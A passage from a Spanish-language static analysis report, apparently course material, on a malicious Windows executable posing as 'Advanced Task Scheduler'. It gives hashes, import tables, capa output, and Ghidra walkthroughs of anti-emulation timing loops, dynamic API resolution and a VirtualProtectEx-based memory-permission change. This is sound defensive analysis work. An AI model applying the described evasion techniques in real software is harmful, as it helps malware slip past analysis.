| **Artefacto PDB**                              | `Z:\as\28cxkoao\azoozykz\l0t\jx\w9y4cni\jyc6mq3\mvnt.pdb`                                                                | Indicador útil para correlación; parece una ruta de compilación artificial o aleatoria.                                                        |

El filtrado de strings no revela `URLs`, dominios, `IPs` ni comandos evidentes como `cmd.exe`, `powershell`, `mshta`, `rundll32` o `regsvr32`. Sin embargo, sí aparecen imports relevantes asociados a `WinHTTP`, carga dinámica, manipulación de procesos/memoria, servicios, Registro, temporización y anti-debug básico. Por tanto, las strings no aportan `IOCs` de infraestructura, pero sí refuerzan las capacidades sospechosas observadas en imports y capa.


                 
## **5.1 Cadenas de interés**
Durante la extracción de cadenas se revisaron tanto strings ASCII como UTF-16LE con el objetivo de identificar artefactos relevantes para el análisis estático: rutas internas, nombres de DLLs, APIs importadas, metadatos de versión, posibles dominios, URLs, comandos o rutas de persistencia.

Las cadenas más relevantes identificadas son las siguientes:
| Categoría             | Cadena / elemento                                                                                            | Relevancia                                                                                                      |
| --------------------- | ------------------------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------------------------- |
| Ruta PDB              | `Z:\as\28cxkoao\azoozykz\l0t\jx\w9y4cni\jyc6mq3\mvnt.pdb`                                                    | Artefacto de compilación útil para correlación entre muestras.                                                  |
| Debug info            | `RSDS`                                                                                                       | Indica presencia de información asociada a debug/PDB.                                                           |
| DLL principal         | `KERNEL32.dll`                                                                                               | Librería base de Windows; aparece junto a numerosas APIs relevantes.                                            |
| Comunicación HTTP     | `WinHttpOpen`, `WinHttpConnect`, `WinHttpOpenRequest`, `WinHttpSendRequest`, `WinHttpReadData`               | Sugiere capacidad de comunicación HTTP/HTTPS mediante WinHTTP.                                                  |
| Procesos y memoria    | `OpenProcess`, `ReadProcessMemory`, `VirtualAlloc`, `VirtualProtectEx`, `CreateThread`                       | Compatible con inspección de procesos, manipulación de memoria o ejecución de hilos.                            |
| Anti-análisis         | `IsDebuggerPresent`, `GetTickCount`, `QueryPerformanceCounter`, `Sleep`                                      | Puede emplearse para detección básica de depurador o comprobaciones temporales.                                 |
| Registro y servicios  | `RegCreateKeyExW`, `RegSetValueExW`, `CreateServiceW`, `StartServiceW`, `OpenSCManagerW`                     | Indica posible interacción con Registro y servicios de Windows.                                                 |
| Metadatos de versión  | `Advanced Task Scheduler 32-bit Edition`                                                                     | La muestra aparenta identificarse como software legítimo.                                                       |
| Metadatos sospechosos | `Doubtsoftware.com`, `Southsoftware.com`, `#dvenced Task Scheduler 32-bit Edition`, `Bifscheduler_edmin.exe` | Existen inconsistencias en los campos de versión, lo que puede indicar suplantación o manipulación del recurso. |


No se han identificado cadenas explícitas asociadas a dominios, `URLs`, direcciones `IP` o comandos como `cmd.exe`, `powershell`, `wscript`, `mshta`, `rundll32` o `regsvr32`. Por tanto, las strings no revelan directamente infraestructura `C2` ni comandos de ejecución visibles.

Sin embargo, sí aportan información relevante sobre las capacidades potenciales de la muestra, especialmente en relación con comunicación `HTTP`, manipulación de procesos, uso del Registro, servicios de Windows y comprobaciones anti-análisis.

## **5.2 Extraccion de IOCs**
A partir de los resultados del análisis estático se extraen los siguientes indicadores de compromiso y artefactos técnicos. Algunos son IO``Cs directos, como los hashes y la ruta `PDB`, mientras que otros son indicadores de comportamiento potencial que deben validarse mediante análisis dinámico o revisión de referencias cruzadas en Ghidra:


| Tipo de IOC / artefacto      | Valor                                                                   | Comentario                                                |
| ---------------------------- | ----------------------------------------------------------------------- | --------------------------------------------------------- |
| MD5                          | `b66eb4bcb2860ef48afbc1378e1ae545`                                      | Identificador rápido de la muestra.                       |
| SHA-1                        | `a2fcbf6e175afcee58344e6ee0f551fc2fff8d27`                              | Hash adicional para correlación.                          |
| SHA-256                      | `49a48d4ff1b7973e55d5838f20107620ed808851231256bb94c85f6c80b8ebfc`      | Identificador principal recomendado para búsquedas OSINT. |
| ssdeep                       | `3072:j9UJ3gySjKLkEfwoZaNEP3N2QdW4BVa7NnnFRdqDGowa9:j61NSjVmaN63NiL4Di` | Útil para comparación por similitud con variantes.        |
| Ruta PDB                     | `Z:\as\28cxkoao\azoozykz\l0t\jx\w9y4cni\jyc6mq3\mvnt.pdb`               | Artefacto de compilación relevante.                       |
| Nombre aparente del producto | `Advanced Task Scheduler 32-bit Edition`                                | Identidad declarada en los recursos de versión.           |
| CompanyName                  | `Doubtsoftware.com`                                                     | Campo sospechoso por inconsistencia con otros metadatos.  |
| Copyright                    | `Southsoftware.com, 2002-2015`                                          | No coincide con el campo `CompanyName`.                   |
| OriginalFilename             | `Bifscheduler_edmin.exe`                                                | Nombre anómalo o potencialmente manipulado.               |
| InternalName                 | `#dvenced Task Scheduler 32-bit Edition`                                | Cadena corrupta o alterada.                               |
| Comunicación potencial       | `WINHTTP.dll`                                                           | Capacidad de comunicación HTTP/HTTPS.                     |
| Registro/servicios           | `ADVAPI32.dll` + APIs de servicios y registro                           | Posible persistencia o modificación del sistema.          |
| Anti-análisis básico         | `IsDebuggerPresent`, `GetTickCount`                                     | Posibles comprobaciones de depuración o temporización.    |


No se han extraído `IOCs` de red directos, ya que no se observan dominios, `URLs` ni direcciones `IP` en las cadenas analizadas. Tampoco se han identificado rutas claras de persistencia como `CurrentVersion\Run`, `AppData`, `ProgramData` o comandos explícitos de ejecución mediante `LOLBins`.

Por tanto, los `IOCs` más sólidos de esta fase son los hashes criptográficos, el hash difuso `ssdeep`, la ruta `PDB` y los metadatos de versión inconsistentes. Las `APIs` importadas deben considerarse indicadores de capacidad, no `IOCs` concluyentes por sí mismas.


# **6. Imports, APIs y capacidades**

## **6.1 Tabla de Imports y APIs**





La muestra presenta imports compatibles con varias capacidades relevantes: comunicación HTTP mediante WinHTTP, persistencia o manipulación mediante servicios, modificación del registro, manipulación de tokens y privilegios, enumeración de procesos/módulos, inspección de memoria de procesos, operaciones de fichero, y fingerprinting del entorno/sesiones. Lo más fuerte para el análisis estático son las combinaciones WinHTTP + servicios + registro + tokens + enumeración de procesos/memoria:

| Categoría                                                           | Imports relevantes                                                                                                                                                                        | DLL                            | Qué nos indica                                                                                                                                                                          | Prioridad      |
| ------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------- |
| **Comunicación HTTP / posible C2**                                  | `WinHttpOpen`, `WinHttpConnect`, `WinHttpOpenRequest`, `WinHttpSendRequest`, `WinHttpReceiveResponse`, `WinHttpReadData`, `WinHttpQueryHeaders`, `WinHttpSetOption`, `WinHttpCloseHandle` | `WINHTTP.dll`                  | Capacidad clara de comunicación HTTP/HTTPS. Puede usarse para C2, descarga de payload, exfiltración o beaconing.                                                                        | **Muy alta**   |
| **Persistencia mediante servicios**                                 | `OpenSCManagerW`, `CreateServiceW`, `StartServiceW`, `ControlService`, `DeleteService`                                                                                                    | `ADVAPI32.dll`                 | Puede crear, iniciar, controlar o eliminar servicios de Windows. Muy relevante para persistencia o ejecución con privilegios.                                                           | **Muy alta**   |
| **Persistencia/modificación del registro**                          | `RegCreateKeyExW`, `RegSetValueExW`, `RegDeleteKeyW`, `RegDeleteValueW`, `SHDeleteKeyW`                                                                                                   | `ADVAPI32.dll`, `SHLWAPI.dll`  | Creación, modificación y borrado de claves/valores de registro. Buscar claves `Run`, `Services`, políticas o configuración del malware.                                                 | **Muy alta**   |
| **Ejecución de procesos**                                           | `CreateProcessW`, `CreateProcessAsUserW`                                                                                                                                                  | `KERNEL32.dll`, `ADVAPI32.dll` | Puede lanzar procesos. `CreateProcessAsUserW` es especialmente interesante porque implica ejecución bajo otro token/contexto de usuario.                                                | **Alta**       |
| **Tokens / privilegios / impersonación**                            | `OpenProcessToken`, `AdjustTokenPrivileges`, `LookupPrivilegeValueW`, `DuplicateTokenEx`, `SetTokenInformation`, `AllocateAndInitializeSid`                                               | `ADVAPI32.dll`                 | Posible manipulación de privilegios, impersonación o preparación para ejecutar procesos con otro contexto. Buscar `SeDebugPrivilege`, `SeImpersonatePrivilege`, etc.                    | **Muy alta**   |
| **Enumeración de procesos y módulos**                               | `CreateToolhelp32Snapshot`, `Process32FirstW`, `Process32NextW`, `Module32FirstW`, `Module32NextW`, `OpenProcess`, `OpenThread`                                                           | `KERNEL32.dll`                 | Enumeración de procesos/módulos/hilos. Puede servir para localizar objetivos, detectar herramientas de análisis o preparar inyección.                                                   | **Alta**       |
| **Memoria de procesos / anti-analysis / posible inyección parcial** | `ReadProcessMemory`, `VirtualQueryEx`, `VirtualProtectEx`, `VirtualAlloc`, `QueryWorkingSet`, `GetProcessMemoryInfo`, `GetModuleInformation`                                              | `KERNEL32.dll`, `PSAPI.DLL`    | Lectura e inspección de memoria de procesos. `VirtualProtectEx` y `VirtualQueryEx` son muy relevantes. No aparece `WriteProcessMemory`, así que no afirmaría inyección clásica todavía. | **Alta**       |
| **Mapeo de memoria / objetos compartidos**                          | `OpenFileMappingW`, `MapViewOfFile`, `UnmapViewOfFile`                                                                                                                                    | `KERNEL32.dll`                 | Posible uso de memoria compartida, comunicación entre procesos, lectura de secciones mapeadas o acceso a objetos globales.                                                              | **Media-alta** |
| **Sistema de archivos / dropper / limpieza**                        | `CreateDirectoryW`, `FindFirstFileW`, `FindNextFileW`, `MoveFileExW`, `DeleteFileW`, `RemoveDirectoryW`, `WriteFile`, `SHFileOperationW`                                                  | `KERNEL32.dll`, `SHELL32.dll`  | Capacidad para crear, buscar, escribir, mover y borrar archivos/directorios. Puede indicar dropper, staging o autolimpieza.                                                             | **Alta**       |
| **Rutas y manipulación de paths**                                   | `PathFindFileNameW`, `PathFindExtensionW`, `PathRemoveFileSpecW`, `PathIsDirectoryW`, `PathGetDriveNumberW`                                                                               | `SHLWAPI.dll`                  | Construcción y análisis de rutas. Útil para localizar dónde escribe o desde dónde se copia.                                                                                             | **Media**      |
| **Reconocimiento del entorno**                                      | `GlobalMemoryStatus`, `GetEnvironmentStringsW`, `GetEnvironmentVariableW`, `SetEnvironmentVariableA`, `GetCurrentProcessId`, `GetCurrentThreadId`                                         | `KERNEL32.dll`                 | Fingerprinting básico del sistema y entorno de ejecución. Puede apoyar detección de sandbox/VM, aunque no lo confirma por sí solo.                                                      | **Media**      |
| **Sesiones de usuario / entorno multiusuario**                      | `WTSEnumerateSessionsW`, `WTSFreeMemory`, `CreateEnvironmentBlock`, `DestroyEnvironmentBlock`                                                                                             | `WTSAPI32.dll`, `USERENV.dll`  | Puede enumerar sesiones activas y crear bloques de entorno para ejecutar procesos bajo sesión/usuario concreto.                                                                         | **Alta**       |
| **Red local / rutas de red**                                        | `GetIpForwardTable`                                                                                                                                                                       | `IPHLPAPI.DLL`                 | Obtiene tabla de rutas IP. Puede usarse para fingerprinting de red, evasión o selección de interfaz/salida.                                                                             | **Media-alta** |
| **Seguridad / ACLs / permisos**                                     | `GetNamedSecurityInfoW`, `SetNamedSecurityInfoW`, `SetEntriesInAclW`                                                                                                                      | `ADVAPI32.dll`                 | Lectura/modificación de descriptores de seguridad y ACLs. Puede usarse para alterar permisos de archivos, servicios, objetos o claves.                                                  | **Alta**       |
| **Objetos globales / sincronización ligera**                        | `GlobalAddAtomA`, `GlobalAddAtomW`, `AddAtomW`                                                                                                                                            | `KERNEL32.dll`                 | Uso de atom tables. Puede servir para coordinación, marcas globales o detección de instancia, aunque es menos concluyente que un mutex.                                                 | **Media**      |
| **Ventanas / sesión gráfica**                                       | `GetForegroundWindow`, `GetDesktopWindow`, `GetWindowThreadProcessId`, `GetMonitorInfoW`, `TrackMouseEvent`                                                                               | `USER32.dll`                   | Puede comprobar sesión interactiva, escritorio activo o procesos asociados a ventanas. Relevante para anti-sandbox o interacción con usuario, pero secundario.                          | **Media-baja** |
| **COM / seguridad COM**                                             | `CoInitializeSecurity`                                                                                                                                                                    | `ole32.dll`                    | Inicialización de seguridad COM. Puede ser preparación para componentes COM/WMI, aunque con este import solo no se puede afirmar WMI.                                                   | **Media**      |


## **6.2 Capacidades con capa**
**Aplicamos el plugin capa para Ghidra:**

```bash
Script ghidra_scripts/capa_ghidra.py called exit with code 0
capa_ghidra.py> Finished!
capa_ghidra.py> Running...
INFO:capa_ghidra:running capa using rules from Escritorio/capa-rules

md5                     b66eb4bcb2860ef48afbc1378e1ae545                        
timestamp               2026-05-31 15:51:41.915392                              
capa version            9.2.1                                                   
os                      windows                                                 
format                  Portable Executable (PE)                                
arch                    x86                                                     
analysis                static                                                  
extractor               ghidra                                                  
base address            0x400000                                                
rules                   Escritorio/capa-rules                    
function count          13                                                      
library function count  0                                                       
total feature count     3153                                                    

contain loop (3 matches, only showing first match of library rule)
author  moritz.raabe@mandiant.com
scope   function                 
function @ 0x402029
  or:
    characteristic: tight loop @ 0x402050

create or open registry key (library rule)
author  michael.hunhoff@mandiant.com, anushka.virgaonkar@mandiant.com           
scope   basic block                                                             
mbc     Operating System::Registry::Create Registry Key [C0036.004], Operating  
        System::Registry::Open Registry Key [C0036.003]                         
basic block @ 0x4027F0 in function 0x40246C
  or:
    api: RegOpenKey @ 0x4027FE

get OS version (library rule)
author  @mr-tz  
scope   function
function @ 0x40246C
  or:
    api: GetVersion @ 0x4024BF, 0x4025D0

encode data using XOR
namespace  data-manipulation/encoding/xor                                       
author     moritz.raabe@mandiant.com                                            
scope      basic block                                                          
att&ck     Defense Evasion::Obfuscated Files or Information [T1027]             
mbc        Defense Evasion::Obfuscated Files or Information::Encoding-Standard  
           Algorithm [E1027.m02], Data::Encode Data::XOR [C0026.002]            
basic block @ 0x402050 in function 0x402029
  and:
    characteristic: tight loop @ 0x402050
    characteristic: nzxor @ 0x40209A
    not: = filter for potential false positives
      or:
        or: = unsigned bitwise negation operation (~i)
          number: 0xFFFFFFFF = bitwise negation for unsigned 32 bits
          number: 0xFFFFFFFFFFFFFFFF = bitwise negation for unsigned 64 bits
        or: = signed bitwise negation operation (~i)
          number: 0xFFFFFFF = bitwise negation for signed 32 bits
          number: 0xFFFFFFFFFFFFFFF = bitwise negation for signed 64 bits
        or: = Magic constants used in the implementation of strings functions.
          number: 0x7EFEFEFF = optimized string constant for 32 bits
          number: 0x81010101 = -0x81010101 = 0x7EFEFEFF
          number: 0x81010100 = 0x81010100 = ~0x7EFEFEFF
          number: 0x7EFEFEFEFEFEFEFF = optimized string constant for 64 bits
          number: 0x8101010101010101 = -0x8101010101010101 = 0x7EFEFEFEFEFEFEFF
          number: 0x8101010101010100 = 0x8101010101010100 = ~0x7EFEFEFEFEFEFEFF

contains PDB path
namespace  executable/pe/pdb        
author     moritz.raabe@mandiant.com
scope      file                     
regex: /:\\.*\.pdb/
  - "Z:\\as\\28cxkoao\\azoozykz\\l0t\\jx\\w9y4cni\\jyc6mq3\\mvnt.pdb" @ file+0x417720

query environment variable
namespace  host-interaction/environment-variable          
author     michael.hunhoff@mandiant.com, @_re_fox         
scope      function                                       
att&ck     Discovery::System Information Discovery [T1082]
mbc        Discovery::System Information Discovery [E1082]
function @ 0x40246C
  or:
    api: GetEnvironmentVariable @ 0x4024AF, 0x40251F

check OS version
namespace  host-interaction/os/version                    
author     michael.hunhoff@mandiant.com, johnk3r          
scope      function                                       
att&ck     Discovery::System Information Discovery [T1082]
mbc        Discovery::System Information Discovery [E1082]
function @ 0x40246C
  and:
    match: get OS version @ 0x40246C
      or:
        api: GetVersion @ 0x4024BF, 0x4025D0
    or:
      and:
        instruction:
          and:
            mnemonic: cmp @ 0x402807
            number: 0x6 = Windows Vista / Windows Server 2008 @ 0x402807
        optional:
          instruction:
            and:
              mnemonic: cmp @ 0x402508
              or:
                number: 0x1 = Windows Server 2008 R2 / Windows 7 @ 0x402508

terminate process
namespace  host-interaction/process/terminate                                   
author     moritz.raabe@mandiant.com, mehunhoff@google.com,                     
           anushka.virgaonkar@mandiant.com                                      
scope      function                                                             
mbc        Process::Terminate Process [C0018]                                   
function @ 0x40246C
  or:
    api: exit @ 0x4024EC
    and:
      or:
        api: ExitProcess @ 0x402A58


Script /home/xxniwexx/ghidra_scripts/capa_ghidra.py called exit with code 0
capa_ghidra.py> Finished!
```


# **7. Recursos, overlay y payloads embebidos**
En esta fase se revisan los recursos internos del ejecutable, la posible presencia de overlay y la existencia de payloads embebidos dentro de la muestra. Este análisis permite detectar elementos ocultos en la sección `.rsrc`, datos añadidos al final del fichero o binarios internos que puedan actuar como segunda etapa, configuración cifrada o contenido extraído durante la ejecución.

Para ello se emplea pecheck.py, revisando tanto los recursos del `PE` como la posible existencia de datos adicionales fuera de la estructura estándar del ejecutable.

## **7.1 Analisis de recursos**
Para obtener una vista resumida de los recursos embebidos en la muestra se ejecutó el siguiente comando:
```bash
└─$ python3 pecheck.py -o r malware.exe
   1: [RT_BITMAP]          3681+111             (9,1)    6952 2800000040000000 (...@...
   2: [RT_BITMAP]          3681                 (9,1)    6992 280000001d000000 (.......
   3: [RT_ICON]            1                    (9,1)    1640 2800000030000000 (...0...
   4: [RT_ICON]            2                    (9,1)     744 2800000020000000 (... ...
   5: [RT_ICON]            3                    (9,1)     488 2800000018000000 (.......
   6: [RT_ICON]            4                    (9,1)     296 2800000010000000 (.......
   7: [RT_ICON]            5                    (9,1)    3752 2800000030000000 (...0...
   8: [RT_ICON]            6                    (9,1)    2216 2800000020000000 (... ...
   9: [RT_ICON]            7                    (9,1)    1736 2800000018000000 (.......
  10: [RT_ICON]            8                    (9,1)    1384 2800000010000000 (.......
  11: [RT_ICON]            9                    (9,1)    9640 2800000030000000 (...0...
  12: [RT_ICON]            10                   (9,1)    4264 2800000020000000 (... ...
  13: [RT_ICON]            11                   (9,1)    2440 2800000018000000 (.......
  14: [RT_ICON]            12                   (9,1)    1128 2800000010000000 (.......
  15: [RT_GROUP_ICON]      3721                 (9,1)     174 000001000c003030 ......00
  16: [RT_VERSION]         1                    (9,1)     948 b403340000005600 ..4...V.
```               

La salida identifica un total de 16 recursos, distribuidos principalmente entre `bitmaps`, iconos, grupo de iconos y recurso de versión.

En conclusión, el análisis de recursos no evidencia payloads embebidos de forma clara. Los recursos detectados parecen corresponder principalmente a elementos gráficos y metadatos de versión. Aun así, dado que la sección `.rsrc` tiene un tamaño considerable, sería recomendable conservarla como zona de interés secundaria y contrastar estos resultados con herramientas como `Resource Hacker`, `Detect It Easy` o extracción manual de recursos si el análisis dinámico revela comportamiento de dropper.


## **7.2 Busqueda de PE embebidos**
Para comprobar si la muestra contenía ejecutables `PE` embebidos se utilizó `pecheck.py `con las opciones `-l P` y `-l PE`, además de una comprobación complementaria con `binwalk`:
```bash
└─$ python3 pecheck.py -l P malware.exe
  1: 0x00000000 EXE 64-bit 0x00027bff b66eb4bcb2860ef48afbc1378e1ae545 0x00027bff (EOF) b'Bifscheduler_edmin.exe' b''
```

```bash
└─$ python3 pecheck.py -l PE malware.exe
  1: 0x00000000          0 EXE 64-bit 0x00027bff b66eb4bcb2860ef48afbc1378e1ae545 0x00027bff (EOF) b'Bifscheduler_edmin.exe' b''
```  


```bash
└─$ binwalk malware.exe | tee binwalk_payloads.txt

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Microsoft executable, portable (PE)

```
  
En conclusión, no se han encontrado payloads `PE` embebidos dentro de la muestra. Tanto `pecheck.py` como `binwalk` sólo identifican el ejecutable principal en el inicio del fichero, sin indicios de una segunda etapa añadida como `PE` interno.


## **7.3 Overlay**
La posible presencia de `overlay` ya había sido comprobada durante el análisis con `pecheck.py`. El resultado obtenido indica que la muestra no contiene `overlay`:


Esto significa que no se han identificado datos añadidos al final del fichero después de la última sección `PE`. Por tanto, no hay evidencia de contenido extra anexado fuera de la estructura estándar del ejecutable, como `payloads` secundarios, configuración cifrada, `blobs` comprimidos o datos ocultos en el final del archivo.

Este resultado es coherente con la búsqueda de `PE` embebidos realizada anteriormente, donde tanto `pecheck.py `como `binwalk` sólo identificaron el ejecutable principal en el `offset 0x0`, sin detectar contenido adicional posterior.

En conclusión, la muestra no presenta `overlay` detectable, por lo que se descarta, en esta fase, la existencia de payloads añadidos al final del binario.


# **8. Análisis estático avanzado en Ghidra**


## **8.1 Punto de entrada y flujo inicial**
El punto de entrada de la muestra se localiza en la dirección virtual:
```bash
Entry point: 0x004074e6
```

Este valor se obtiene a partir de la dirección base del binario y la RVA del entry point:
```bash
ImageBase: 0x400000
AddressOfEntryPoint: 0x74e6
EntryPoint VA: 0x400000 + 0x74e6 = 0x004074e6
```

Según la información obtenida con `pecheck.py`, el punto de entrada se encuentra dentro de la sección `.text`, en el offset físico `0x000068e6.` Esto es coherente con un ejecutable `PE` estándar, ya que la ejecución comienza dentro de la sección de código.




Identificamos la función inicial: `entry` en `0x004074e6`, pero parece actuar como stu``b/trampolín de entrada, no como lógica principal directa.

En la vista de desensamblado se observa que realiza una llamada a `FUN_004041db` y, a continuación, transfiere el flujo mediante un salto incondicional a `FUN_00402af3`:
```bash
004074e6    CALL    FUN_004041db
004074eb    JMP     FUN_00402af3
```

Por tanto, la función `entry` no parece contener lógica maliciosa principal, sino actuar como una rutina inicial de arranque o trampolín. Su cometido probable es ejecutar una primera función de inicialización (`FUN_004041db`) y después transferir el control a otra función (`FUN_00402af3`) donde podría continuar el flujo real del programa.


Por ello, el análisis estático avanzado debe continuar revisando estas dos funciones, especialmente `FUN_00402af3`, como posible punto de entrada hacia la lógica principal de la muestra.


## **8.2 Funciones relevantes identificadas**


### **8.2.3 Función `00402af3`**
**Es la primera función de inicialización real alcanzada desde el punto de entrada. Destacamos:**

Aquí la muestra llama a `GetTickCount` y guarda el resultado en una variable` global (DAT_0041e308)`. Esto confirma que el valor de `tiempo/uptime` se conserva para uso posterior. Por sí solo no prueba `anti-sandbox`, pero sí es una señal a seguir: habría que buscar referencias cruzadas a `DAT_0041e308` para ver si se compara más adelante contra otro valor temporal o contra un umbral.

**Revisamos XREF de DAT_0041e308:** 
  
La XREF de DAT_0041e308 es importante: sólo hay una referencia y es de escritura. Esto significa que la muestra guarda el valor devuelto por `GetTickCount` en una variable global, pero no parece leerlo posteriormente. Lo que implica que no hay indicios claros de que ese valor se use después para una comprobación `anti-sandbox` o `anti-debug`.


**Revisamos FUN_00402a5f:** Esta función se llama justo antes de salir y puede formar parte de la lógica de cálculo inicial. Su código contiene numerosas operaciones aritméticas con constantes, divisiones, multiplicaciones, operaciones OR, AND y XOR, lo que sugiere una posible rutina de cálculo ofuscada u opaque logic destinada a dificultar el análisis estático. El aspecto más relevante de `FUN_00402a5f` es que termina invocando `FUN_0040246c`, función que previamente fue asociada a comprobaciones del entorno, consulta de variables, versión del sistema, acceso al Registro y terminación del proceso. Por ello, `FUN_00402a5f` debe considerarse una función intermedia de inicialización/ofuscación que conduce hacia una rutina más importante para el análisis del comportamiento inicial de la muestra.

**Revisamos FUN_004100c0:** Parece claramente una rutina auxiliar de prólogo `SEH`, no una función maliciosa principal.


### **8.2.4 FUN_0040246c**
Esta función sí es muy relevante. [FUN_0040246c](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/7-M9T7/utiles/FUN_0040246c.md) parece una rutina de inicialización + comprobaciones anti-análisis + resolución dinámica + lógica ofuscada. 

**Análisis breve de FUN_0040246c:**
| Bloque                                | Evidencia                                                                        | Interpretación                                                                                                   |
| ------------------------------------- | -------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------- |
| **Prólogo SEH**                       | Llama a `FUN_004100c0` al inicio                                                 | Usa marco SEH/runtime. No es malicioso por sí solo.                                                              |
| **Inicialización COM**                | `CoInitialize` repetido muchas veces                                             | Parte puede ser inicialización real, pero la repetición parece ruido/ofuscación.                                 |
| **Carga dinámica sospechosa**         | `LoadLibraryExA("0x64bc6d21.d")`                                                 | Intenta cargar un módulo con nombre extraño. Puede ser comprobación, señuelo o dependencia ofuscada.             |
| **Variables de entorno raras**        | `GetEnvironmentVariableW("0x7f44db81")`, `GetEnvironmentVariableW("0x4ae6ada3")` | Nombres no descriptivos. Puede ser fingerprinting, configuración oculta o ruido ofuscado.                        |
| **Temporización**                     | `GetTickCount`, valor combinado con otros datos                                  | Se usa en cálculos internos. Más adelante se resuelve dinámicamente y se invoca.                                 |
| **Átomos globales/locales**           | `AddAtomW(0xd)`, `GlobalAddAtomA(0xb)`, `GlobalAddAtomW(0xc)`                    | Posibles *opaque predicates* o comprobaciones anti-emulación.                                                    |
| **Salida temprana**                   | Si `AddAtomW` no devuelve `0xd`, llama a `exit`                                  | Hay condiciones que pueden cortar la ejecución. Esto sí es relevante.                                            |
| **Resolución dinámica de API**        | `LoadLibraryW("kernel32.dll")` + `"GetTickCount"` + llamada a `FUN_00402000`     | Confirma resolución dinámica probable de `GetTickCount`.                                                         |
| **Llamada indirecta**                 | `CALL dword ptr [EBP - 0x24]`                                                    | Ejecuta la API resuelta dinámicamente.                                                                           |
| **Bucle de retardo / anti-emulación** | Bucle con contador `0xfc107`, `wsprintfW`, `IsWindowVisible`                     | Muy sospechoso. Puede consumir tiempo y comprobar si el tiempo avanza.                                           |
| **Comprobación temporal**             | Llama a `GetTickCount` antes y después del bucle y compara diferencia            | Indicio fuerte de anti-emulación/anti-sandbox basado en temporización.                                           |
| **Registro**                          | `RegOpenKeyW`                                                                    | Acceso al Registro. Falta identificar la clave concreta en `DAT_00417598`.                                       |
| **VirtualProtectEx preparado**        | Guarda puntero de `VirtualProtectEx` en `DAT_0041e414`                           | Muy relevante. Puede preparar cambio de permisos o rutina posterior de modificación de memoria.                  |
| **Función siguiente clave**           | `FUN_00402116`                                                                   | Debe analizarse después. Puede estar relacionada con descifrado, modificación de memoria o activación de código. |

La función `FUN_0040246c` es una de las rutinas más relevantes del flujo inicial. Combina inicialización mediante `SEH` y `COM` con múltiples operaciones de ofuscación, uso de constantes, llamadas repetidas, comprobaciones mediante átomos, variables de entorno con nombres no descriptivos y lógica de temporización.

Uno de los hallazgos principales es la resolución dinámica de `GetTickCount` mediante `LoadLibraryW("kernel32.dll")` y una función auxiliar, probablemente `FUN_00402000`, que debe analizarse como posible wrapper de `GetProcAddress`. Posteriormente, la `API` resuelta se invoca de forma indirecta.

La función también contiene un bucle largo basado en `wsprintfW` e `IsWindowVisible`, seguido de una nueva llamada a `GetTickCount` y una comparación temporal. Esto sugiere una posible técnica `anti-emulación` o `anti-sandbox` basada en comprobar que el tiempo avanza durante la ejecución.

Además, se observa acceso al Registro mediante `RegOpenKeyW` y preparación de un puntero a `VirtualProtectEx` antes de llamar a `FUN_00402116`, por lo que esta última función debe priorizarse en el análisis, ya que podría estar relacionada con modificación de memoria, descifrado o activación de código.


### **8.2.5 FUN_00402000**
Esta función confirma claramente la resolución dinámica de `APIs` mediante `GetProcAddress`. La función es un `wrapper` ofuscado de `GetProcAddress`.

La función `FUN_00402000` actúa como un `wrapper` ofuscado de `GetProcAddress`. Recibe como argumentos un `handle` de módulo y el nombre de una `API`, y devuelve la dirección de la función resuelta dinámicamente. En lugar de invocar `GetProcAddress` mediante una llamada directa, utiliza una secuencia basada en `PUSH` y `RET` para transferir el control, dificultando el análisis estático lineal.

Además, contiene pequeños bloques de bytes no ejecutados saltados mediante `JMP`, compatibles con basura o `anti-disassembly` ligero. Esta función confirma que la muestra emplea resolución dinámica de `APIs`. En el flujo analizado se utiliza para resolver dinámicamente `GetTickCount` desde `kernel32.dll`.


### **8.2.5 FUN_00402116**
`FUN_00402116` es muy relevante. Confirma que la muestra no sólo prepara `VirtualProtectEx`, sino que la usa para cambiar permisos de memoria dentro del propio proceso. 

**Análisis breve de FUN_00402116:**
| Elemento              | Evidencia                       | Interpretación                                                                 |
| --------------------- | ------------------------------- | ------------------------------------------------------------------------------ |
| Función llamada desde | `FUN_0040246c:00402a0b`         | Forma parte del flujo inicial importante.                                      |
| Parámetro             | `param_1`                       | Recibe una dirección, probablemente `0x0041577a`, pasada desde `FUN_0040246c`. |
| Estado global         | Usa `DAT_0041e418`              | Variable global utilizada como acumulador/estado ofuscado.                     |
| API relevante         | `CALL dword ptr [DAT_0041e414]` | `DAT_0041e414` contenía el puntero a `VirtualProtectEx`.                       |
| Permisos nuevos       | `0x40`                          | Corresponde a `PAGE_EXECUTE_READWRITE`.                                        |
| Proceso objetivo      | `-1`                            | Handle pseudoactual: proceso actual.                                           |
| Tamaño                | `0xe1b`                         | Cambia permisos de una región de unos 3611 bytes.                              |
| Llamada posterior     | `FUN_004020bd(param_1)`         | Probable rutina de modificación/decodificación sobre esa región.               |


La función `FUN_00402116` es una rutina relevante dentro del flujo inicial. Recibe como parámetro una dirección interna del binario y utiliza el puntero almacenado en `DAT_0041e414`, previamente asociado a `VirtualProtectEx`, para modificar los permisos de memoria del proceso actual.

La llamada se realiza sobre el proceso actual, con tamaño `0xe1b` y permisos `0x40`, equivalentes a `PAGE_EXECUTE_READWRITE`. Esto indica que la muestra prepara una región interna para lectura, escritura y ejecución, comportamiento compatible con autoparcheo, descifrado en memoria o modificación dinámica de código/datos.

Tras cambiar los permisos, la función continúa con operaciones aritméticas ofuscadas y finalmente invoca `FUN_004020bd` pasando la misma dirección. Por ello, `FUN_004020bd` debe analizarse como posible rutina de transformación, decodificación o activación de contenido modificado en memoria.

### **8.2.5 FUN_004020bd**
`FUN_004020bd` es muy relevante porque parece ser la rutina que finalmente transfiere la ejecución hacia la región preparada previamente con `VirtualProtectEx`.

**Análisis breve de FUN_004020bd:** La función `FUN_004020bd` actúa como una rutina de transferencia de control ofuscada. Es llamada desde `FUN_00402116 `después de que esta haya modificado permisos de memoria mediante `VirtualProtectEx`. La función manipula la pila y utiliza un `RET` para redirigir la ejecución hacia la dirección recibida como argumento, en lugar de emplear un `CALL` o `JMP` directo.

